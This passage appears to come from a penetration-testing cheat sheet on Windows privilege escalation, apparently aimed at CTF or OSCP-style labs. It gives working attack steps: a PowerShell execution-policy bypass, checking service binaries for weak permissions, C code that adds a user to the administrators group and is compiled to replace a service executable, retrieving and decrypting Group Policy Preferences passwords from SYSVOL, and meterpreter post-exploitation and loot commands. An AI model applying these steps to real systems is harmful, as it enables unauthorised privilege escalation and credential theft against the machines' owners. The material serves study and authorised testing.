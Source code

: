              `powershell -ExecutionPolicy ByPass -command "& { . C:\Users\public\PowerShellRunAs.ps1; }"`


-   Windows Service Configuration Viewer - Check for misconfigurations
    in services that can lead to privilege escalation. You can replace
    the executable with your own and have windows execute whatever code
    you want as the privileged user.  
    icacls scsiaccess.exe

         scsiaccess.exe  
         NT AUTHORITY\SYSTEM:(I)(F)  
         BUILTIN\Administrators:(I)(F)  
         BUILTIN\Users:(I)(RX)  
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)  
         Everyone:(I)(F)

-   Compile a custom add user command in windows using C  

             root@kali:~\# cat useradd.c  
             #include <stdlib.h> /* system, NULL, EXIT_FAILURE */  
             int main ()  
             {  
             int i;  
             i=system ("net localgroup administrators low /add");  
             return 0;  
             }  

             i686-w64-mingw32-gcc -o scsiaccess.exe useradd.c

-   Group Policy Preferences (GPP)  
    A common useful misconfiguration found in modern domain environments
    is unprotected Windows GPP settings files

    -   map the Domain controller SYSVOL share  
        
        `net use z:\\dc01\SYSVOL`

    -   Find the GPP file: Groups.xml  
        
        `dir /s Groups.xml`

    -   Review the contents for passwords  
        
        `type Groups.xml`

    -   Decrypt using GPP Decrypt  
        
        `gpp-decrypt riBZpPtHOGtVk+SdLOmJ6xiNgFH6Gp45BoP3I6AnPgZ1IfxtgI67qqZfgh78kBZB`
        
-   Find and display the proof.txt or flag.txt - get the loot!
    
    `#meterpreter  >     run  post/windows/gather/win_privs`
    `cd\ & dir /b /s proof.txt`
    `type c:\pathto\proof.txt`
    

Client, Web and Password Attacks
==============================================================================================================================
